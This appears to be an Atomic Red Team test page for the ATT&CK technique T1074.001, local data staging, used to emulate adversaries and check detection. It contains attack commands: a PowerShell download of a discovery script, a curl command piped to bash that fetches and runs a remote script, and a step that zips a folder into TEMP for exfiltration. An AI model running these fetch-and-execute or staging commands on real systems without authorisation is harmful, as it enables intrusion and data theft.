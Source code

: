 # T1074.001 - Data Staged: Local Data Staging
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1074/001)
<blockquote>Adversaries may stage collected data in a central location or directory on the local system prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as [Archive Collected Data](https://attack.mitre.org/techniques/T1560). Interactive command shells may be used, and common functionality within [cmd](https://attack.mitre.org/software/S0106) and bash may be used to copy data into a staging location.

Adversaries may also stage collected data in various available formats/locations of a system, including local storage databases/repositories or the Windows Registry.(Citation: Prevailion DarkWatchman 2021)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)

- [Atomic Test #2 - Stage data from Discovery.sh](#atomic-test-2---stage-data-from-discoverysh)

- [Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp](#atomic-test-3---zip-a-folder-with-powershell-for-staging-in-temp)


<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file. This emulates an attacker downloading data collection tools onto the host. Upon execution,
verify that the file is saved in the temp directory.

**Supported Platforms:** Windows


**auto_generated_guid:** 107706a5-6f9f-451a-adae-bab8c667829f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Location to save downloaded discovery.bat file | Path | $env:TEMP&#92;discovery.bat|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-WebRequest "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074.001/src/Discovery.bat" -OutFile #{output_file}
```

#### Cleanup Commands:
```powershell
Remove-Item -Force #{output_file} -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Stage data from Discovery.sh
Utilize curl to download discovery.sh and execute a basic information gathering shell script

**Supported Platforms:** Linux, macOS


**auto_generated_guid:** 39ce0303-ae16-4b9e-bb5b-4f53e8262066





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Location to save downloaded discovery.bat file | Path | /tmp/T1074.001_discovery.log|


#### Attack Commands: Run with `bash`! 


```bash
curl -s https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074.001/src/Discovery.sh | bash -s > #{output_file}
```






<br/>
<br/>

## Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp
Use living off the land tools to zip a file and stage it in the Windows temporary folder for later exfiltration. Upon execution, Verify that a zipped folder named Folder_to_zip.zip
was placed in the temp directory.

**Supported Platforms:** Windows


**auto_generated_guid:** a57fbe4b-3440-452a-88a7-943531ac872a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Location to save zipped file or folder | Path | $env:TEMP&#92;Folder_to_zip.zip|
| input_file | Location of file or folder to zip | Path | PathToAtomicsFolder&#92;T1074.001&#92;bin&#92;Folder_to_zip|


#### Attack Commands: Run with `powershell`! 


```powershell
Compress-Archive -Path #{input_file} -DestinationPath #{output_file} -Force
```

#### Cleanup Commands:
```powershell
Remove-Item -Path #{output_file} -ErrorAction Ignore
```





<br/>
